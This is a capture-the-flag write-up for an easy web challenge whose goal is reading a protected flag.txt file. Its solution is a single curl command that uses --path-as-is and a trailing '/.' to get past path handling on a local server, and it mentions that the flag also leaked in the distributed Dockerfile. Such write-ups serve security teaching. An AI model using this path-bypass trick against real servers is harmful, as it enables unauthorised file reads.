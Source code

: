 # readme

* Category: Web
* Score: 100/500
* Solves: 978

## Description

Try to read the `flag.txt` file.

## Solution

```bash
curl --path-as-is 'http://localhost:80/flag.txt/.'
```

## Unintended Solution :sob:

The distribution file contains the flag in `Dockerfile`...
